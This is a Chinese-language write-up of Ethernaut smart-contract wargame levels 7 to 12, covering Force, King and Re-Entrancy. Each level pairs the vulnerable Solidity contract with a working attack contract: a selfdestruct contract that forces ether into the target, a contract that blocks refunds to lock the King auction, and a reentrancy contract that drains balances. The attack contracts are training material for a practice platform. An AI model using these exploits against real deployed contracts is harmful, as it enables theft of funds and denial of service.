


# Ethernaut靶场刷题记录(7-12)
    author: 甘赞栩

## 07 Force
这道题是为了考查我们对自毁函数`selfdestruct`的认识
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
这就是一个空合约，题目想要我们给这个合约转一笔账，可我们知道，一个没有任何函数的合约是没有办法接收转账的。者就用到了自毁函数`selfdestruct`
>自毁函数selfdestruct：
    当我们调用这个函数时，它会使合约无效化并删除该地址的字节码，然后它会把合约里剩余的资金发送给参数指定的地址，比较特殊的是这笔资金的发送将无视合约的fallback函数。（因为之前提到，如果合约收到一笔没有任何函数可以处理的资金时，就会调用fallback函数，而selfdestruct函数无视这一点，也就是资金会优先由selfdestruct函数处理）

我们只需要自己写一个新合约，往里面存一点测试币，然后调用自毁函数`selfdestruct`将参数设置为此合约的地址，我们合约里的token
就会转到此合约当中。<br/>
攻击合约如下：
```
pragma solidity ^0.6.0;


contract Attck{


receive() payable external{

}
function dosome() public payable{
    selfdestruct(0x0F8AaD423dc5aE12382CEc67412dADb6e2b0eFF3);//Force的地址
}
}
```


* 解题步骤
1. 直接使用metamask给我自己的攻击合约转账

2. 执行攻击合约的dosome函数
3. 通关

# King
这是一个Dos攻击（拒绝服务）型的漏洞
先看代码：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```
这是一个类似于拍卖的合约
题目的意思其实就是说让我们在成功报价后，想办法让别人无法对你的报价再进行竞拍。因为刚好前两天才系统性的了解了拒绝服务DDOS攻击，这道题就变得很容易。
>因为这个竞拍合约需要向上一个竞拍者转账后才能完成竞拍成功（完成king的交换），那我们不让他转账成功不就可以永远不被替换了嘛，需要我们创建一个攻击合约，而此合约需要fallable和receive函数不能设置为payable，
```
pragma solidity ^0.6.0;

contract AttackKing {

    constructor(address payable _victim) public payable {
        _victim.call.gas(1000000).value(msg.value)("");
    }

```
在此攻击合约中我们不写任何receive fallback函数，那么默认就是没有payable修饰的，自然也就接收不了转账。当然，也可以在receive中用revert()语句去终止交易。
* 解题步骤
1. 先用`web3.eth.getStorageAt('0x2814Cd87DdF364D7A5Ef9BAC507fdad131956647',1)`查看一下当前竞拍值是多少

在这里可以看到是0.001ether，那么我们就需要提供大于0.001ether的报价才能成为king
2. 在创建攻击合约时，同时存0.0011个ether进去(如果你测试币多的话直接传1ether就行)

3. 通关

## Re-Entrancy
顾名思义，这是一个重入漏洞
先看代码：
```
pragma solidity ^0.6.0;

import '@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
我们可以注意到withdraw函数里面很明显是存在重入漏洞的，（在更改全局变量之前进行了外部调用）于是我们利用这个漏洞写出攻击合约：
```
pragma solidity ^0.6.0;

contract attack {

    address payable target;
    uint amount = 1000000000000000 wei;

    constructor(address payable _addr) public payable {
        target=_addr;
    }

    function step1() public payable{
        target.call{value: amount}(abi.encodeWithSignature("donate(address)",address(this)));
    }

    function setp2() public payable {
        target.call(abi.encodeWithSignature("withdraw(uint256)",amount));
    }


    fallback () external payable{
        target.call(abi.encodeWithSignature("withdraw(uint256)",amount));
    }

}
```
注意第一步第二步最好分开写，否则可能造成交易超过gas limit的上限导致执行失败
* 解题步骤
按照step1，2执行即可

可以看到原合约已经没有token了。而我们的账户有了很多，攻击成功。
